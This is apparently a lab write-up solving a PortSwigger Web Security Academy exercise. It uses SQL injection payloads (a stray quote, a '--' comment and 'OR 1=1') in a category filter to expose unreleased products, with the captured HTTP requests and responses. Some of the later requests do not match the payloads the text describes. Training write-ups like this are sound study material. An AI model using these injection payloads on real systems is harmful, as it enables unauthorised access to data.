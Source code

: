 # Lab Description
## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of **all products in any category, both released and unreleased**.

# Lab Solution

The lab environment is straightforward. As displayed in the picture below, we are presented with a simple gift shop application. The application allows us to choose which category of gifts we want to decide to narrow down the search.

![welcome-eshop](Assets/1.png)

The highlighted section indicates a potentially vulnerable URI with the category variable `filter?category=Tech+gifts`

![vulnerable-parameter2](Assets/2.png)

According to the [OWASP attack description](https://owasp.org/www-community/attacks/SQL_Injection)[^1], an SQL injection attack occurs when:

1. An unintended data enters a program from an untrusted source.
2. The data is used to dynamically construct a SQL query

To test for the possibility we are going to introduce a single quote character after `Gift`, effectively modified our HTTP request to look like this:

`SELECT * FROM products WHERE category = 'Gifts'' AND released = 1`

Since single quotes indicate the beginning and end of a string in SQL, in this case, if the SQL query is dynamically constructed, it should produce an error.

We captured the HTTP request and send to [Burp Suite Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater/using)[^2]


**Modified HTTP request**
```
GET /filter?category=Tech+gifts' HTTP/1.1
Host: <redacted>.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

**HTTP response**
```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 2554
```

While testing for SQL injection vulnerabilities or attempting to take over a query, we may face different [HTTP status codes](https://www.sqlinjection.net/http-errors/)[^3]. The HTTP status code 500 is a generic error response displayed when the server encounters an unexpected condition that prevents it from fulfilling the request. The server usually returns this error when no other error code is suitable. However, while testing, if we get a 500 error page back, chances are that injection is occurring [^4].

To solve the lab assignment, we need to modify a query so it fulfills two conditions
1. display all products in any category,
2. display released and unreleased products.

We can start solving the second part, which is easier, by modifying the query by adding `--` characters:

`SELECT * FROM products WHERE category = 'Gifts'-- ' AND released = 1`

In this HTTP request, everything after `--` is rendered as a comment and, therefore, not the condition that only released products should be displayed is interpreted.

Bellow, we can see the new modified HTTP request from Repeater and OK HTTP response, meaning that the web page understood our HTTP request and is sending the page in return.

**Modified HTTP request 2**
```
GET /filter?category=Tech+gifts'-- HTTP/1.1
Host: <redacted>.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```
**HTTP response 2**
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 5156
```

After submitting a new HTTP request, we can see that the page's content changed, and we see a new gift compared to the previous picture, which indicates that we got rid of the released condition.

![all-tech-gifts-displayed](Assets/3.png)


**Modified HTTP request 3**
```
GET /filter?category=Tech+gifts or 1=1-- HTTP/1.1
Host: <redacted>.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

As a last step, we need to cause the application to display all the products in any category, including those we do not know about. To do this, we will introduce a Boolean logic. [Boolean-based SQL Injection](https://www.acunetix.com/websitesecurity/sql-injection2/)[^5] is technique that relies on sending an SQL query, which forces the application to return a different result depending on whether the query returns a TRUE or FALSE result.

We modify our query by using the `OR` conditional statement and condition, which always will return true, such as 1=1.

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1 -- ' AND released = 1`


Before sending the modified HTTP request, we need to URL encode the characters. Otherwise, the server sends an `HTTP/1.1 400 Bad Request` response.

**Modified HTTP request 3**
```
GET /filter?category=Tech+gifts+or+1%3d1 HTTP/1.1
Host: <redacted>.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```
**HTTP response 3**
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 5361
```

![solved-lab](Assets/4.png)

Thank you for reading and see you in the next lab!


[^1]: https://owasp.org/www-community/attacks/SQL_Injection)
[^2]: https://portswigger.net/burp/documentation/desktop/tools/repeater/using
[^3]: https://www.sqlinjection.net/http-errors/)
[^4]: https://www.risco.org.br/recursos/WhitepaperSQLInjection.pdf
[^5]: https://www.acunetix.com/websitesecurity/sql-injection2/
